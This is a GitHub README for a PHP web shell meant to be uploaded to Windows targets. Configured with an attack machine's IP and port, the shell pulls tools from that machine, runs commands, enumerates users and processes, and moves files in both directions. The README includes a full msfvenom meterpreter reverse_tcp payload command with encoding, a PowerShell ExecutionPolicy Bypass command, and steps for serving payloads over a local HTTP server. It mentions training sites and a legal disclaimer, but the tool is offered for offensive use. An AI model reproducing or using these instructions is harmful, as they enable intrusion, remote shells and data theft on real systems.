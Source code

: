 [![Actively Maintained](https://img.shields.io/badge/Maintenance%20Level-Actively%20Maintained-green.svg)](https://gist.github.com/cheerfulstoic/d107229326a01ff0f333a1d3476e068d) [![Version-2.0.8](https://img.shields.io/badge/Version-2.0.8-green)](https://img.shields.io/badge/Version-2.0.8-green) [![License MIT](https://img.shields.io/badge/License-MIT-blue)](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/LICENSE) [![Language PHP](https://img.shields.io/badge/Language-PHP-red)](https://www.php.net/)

# The Not-So Simple PHP Command Shell 🕵🔎 ️
![Logo](/img/nsscmdshell.png)
## Foreword:
> Please note that gaining access to the target is beyond the scope of this writing and your responsibility to establish in a manner consistent with established law.  This tool is intended to be used for on target enumeration to gather and exfiltrate information and then to upload and execute tools such as netcat or msvenom payload for further access to the target. The following websites provide training resources and practice scenarios and are excellent resources for learning such skills:

* https://www.hackthebox.eu/
* https://tryhackme.com/

Automates or simplifies many on target functions. Designed for windows targets. See it in action at https://kdgwebsolutions.com/assets/img/videos/proof-of-concept-for-learning-management-system-exploits.mp4. I have included an assortment of common windows enumeration and escalation tools.  To generate your own msfvenom payload:

venom.exe : `sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=(ATTACKBOXIP) LPORT=(ATTACBOXPORT) -e x64/shikata_ga_nai -f exe -o venom.exe`

![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshelluse.gif)

## Automates or simplifies many on target enumeration functions. Including:

* Simple system commands
* File upload/download options
* simple user manipulations (on compatible targets with sufficient privileges)
* One click user info/ user permissions info
* One click systeminfo
* One Click processes list
* One click file cleanup removes all files uploaded with this tool

## How to use it

First, change the variables, "$attackip" and "$attackport" to the appropriate values for YOUR attack machine:

`$attackip = "10.0.2.6";`

`$attackport = "8000";`

Now get "nsscmdshell.php" onto the target < - DISCLAIMER (in a manner consistent with applicable laws - and within scope of a written contract where required) - >.

Once the nsscmdshell is uploaded, typing valid commands into the command input or clicking the various cmd buttons will display the results in a windows command prompt style below the nsscmdshell interface.

![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-output.png)

###### The upload and download options are self explanatory, but just to avoid any confusion:

If using the select field, choose your file and click "upload". Files linked in the select field options need to be present at the web root at the ip address and port in lines 10 and 11 of nsscmdshell.php.<sup>1</sup>

If using the open file dialog option, only files present at the ip address and port specified can be uploaded.

For the download option, simply enter the filename to be downloaded from the working directory of the target machine. Please note that files which can be managed by your browser will be opened in your browser - i.e., entering a text or html file to be downloaded will instead open the file in the web browser.

Example usage: run jaws-enum.ps1 - output to jaws.txt `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws.txt`, then download the output file to your attack machine for later close examination.

![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-jaws.png)

The quick command buttons each have a title attribute with a brief description of the function - hover over the button to see the description.<br>

![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-title-desc.png)

It goes without saying that the effectiveness of the various functions depends on the target os's support of the functions and the current user's permissions. This was designed for and tested on Windows XP - Windows 8.1 with very limited testing on Win10.

*** Got "Warning: file_get_contents(http://XX.XX.XX.XX:XXXX/filename.ext):failed to open stream: No connetion could be made...." error?
 Two possible causes:
1. You didn't set the variables, `$attackip` and `$attackport` to your machine. Fix: ifconfig your ip, and set in nsscmdshell.php lines 10 and 11.
2. The files are not available on the defined server or port, or there is no server running on the defined port. Fix: `python3 -m http.server XXXX` in a directory containing the files you're attempting to upload.

### Footnotes:
<sup>1</sup> I generally cd into my "windowstools" folder and start a simple http server:
`cd windowstools`
`python3 -m http.server 8000`.
![Screen](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-listening.png)
![Hack The Box](http://www.hackthebox.eu/badge/image/476578)
